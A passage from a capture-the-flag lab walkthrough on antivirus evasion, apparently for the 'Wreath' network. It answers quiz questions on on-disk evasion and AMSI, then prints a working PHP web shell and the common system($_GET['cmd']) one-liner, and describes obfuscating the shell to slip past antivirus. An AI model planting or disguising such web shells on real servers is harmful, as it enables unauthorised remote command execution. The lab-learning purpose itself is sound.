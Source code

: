 Click browse, and switch all supported types to all files so you can select your PHP test file and click upload it.

### We have a successful test and just need to figure out how to bypass the AV!

## Task 37: [AV Evasion] Introduction

Read through the lesson on AV evasion.

**1) Which category of evasion covers uploading a file to the storage on the target before executing it?**

This is On-Disk evasion method because it is stored on the device and not In-Memory.

**2) What does AMSI stand for?**

You can find this in the reading. It was a feature implemented by Microsoft that scans scripts as they enter memory.

**3) Which category of evasion does AMSI affect?**

## Task 38: [AV Evasion] AV Detection Methods

Read about static and dynamic/heuristic/behavioral detection.

Answer the questions with the reading.

## Task 39: [AV Evasion] PHP Payload Obfuscation

Since we know that our test payload worked, we can now create a real payload that will execute the cmd.

```php
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

This is a longer version than a possible one-liner that can be used.

```
<?php system($_GET["cmd"]);?>
```

If we're obfuscating it though, ours will become a one-liner anyway and this one will have a different hash than the common one-liner.

Now we can use this [tool](https://www.gaijin.at/en/tools/php-obfuscator) to obfuscate our payload with all of the available options.

Now we are given our obfuscated payload.
